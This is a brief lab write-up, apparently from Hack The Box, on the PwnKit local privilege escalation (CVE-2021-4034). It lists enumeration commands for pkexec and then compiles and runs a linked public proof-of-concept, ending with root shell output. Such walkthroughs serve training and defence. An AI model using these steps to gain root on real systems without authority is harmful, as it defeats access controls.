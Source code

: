 # CVE-2021-4034 - Linux - PwnKit - Local Privilege Escalation

## Enumeration

```bash
$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
```

```bash
$ uname -a

Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
$ pkexec --version

pkexec version 0.105
```

```bash
$ which pkexec
/usr/bin/pkexec

$ ls -lha /usr/bin/pkexec
-rwsr-xr-x 1 root root 23K Jul 14  2021 /usr/bin/pkexec
```

As the vulnerability was detected at the end of 2021, we could also check if the version we have is before Dec 2021.

## Exploitation

Compile and run [cve-2021-4034-poc.c](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c)

```bash
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ./cve-2021-4034-poc 

# id
uid=0(root) gid=0(root) groups=0(root),1001(htb-student)
```

## Links

- [SecList - pwnkit](https://seclists.org/oss-sec/2022/q1/80)
- [Qualys - pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
- [GitHub - PoC - arthepsy](https://github.com/arthepsy/CVE-2021-4034)
- [HTB Pressed machine](https://app.hackthebox.com/machines/440)
